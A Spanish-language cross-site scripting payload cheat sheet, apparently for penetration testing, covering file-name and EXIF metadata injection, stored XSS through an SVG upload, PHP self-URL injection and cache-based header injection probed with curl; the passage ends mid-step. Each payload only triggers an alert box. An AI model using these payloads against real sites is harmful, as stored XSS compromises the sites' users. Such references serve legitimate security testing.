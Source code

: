 
## File Upload Injection

Úselo cuando el nombre del archivo cargado se refleje en algún lugar de la página de destino:

```
"><svg onload=alert(1)>.gif
```

Úselo cuando los metadatos del archivo cargado se reflejen en algún lugar de la página de destino. 
Utiliza 'exiftool' de línea de comandos y se puede configurar cualquier campo de metadatos:

```
exiftool -Artist='"><svg onload=alert(1)>' xss.jpeg
```

Úselo para crear un XSS almacenado en el target al cargar archivos de imagen. Guarde el contenido a continuación como "xss.svg":

```
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```

## PHP Self URL Injection

Úselo cuando el código PHP subyacente del destino utilice la URL actual como un valor de atributo de un formulario HTML.
Por ejemplo, inyecte entre la extensión php y el inicio de la parte de la consulta (?) usando una barra inclinada (/):

```
https://vulnerable.com/xss.php/"><svg onload=alert(1)>?a=reader
```

## XSS in HTTP Header Cached

Úselo para almacenar un vector XSS en la aplicación utilizando el esquema de caché MISS-MISS-HIT (si existe uno).

Reemplace \<XSS> con su vector respectivo y TARGET con una cadena ficticia para evitar la versión en caché real de la página. Realiza la misma solicitud 3 veces:

```
curl -i http://example.com/test123.php
```

Si se observa algún header del tipo "header-especial: HIT", se debe agregar algo en la URL para evitar la caché, ya que el valor de "HIT" implica que está llegando al WAF:

```
curl -i http://example.com/test123.php?cgonzalo
```

Ahora se observa el valor de "header-especial: MISS", lo cual indica que esta URL es una versión no almacenada en caché de la página.

Luego, inyectar nuestro propio encabezado (con la flag -H) para verificar si aparece como respuesta:
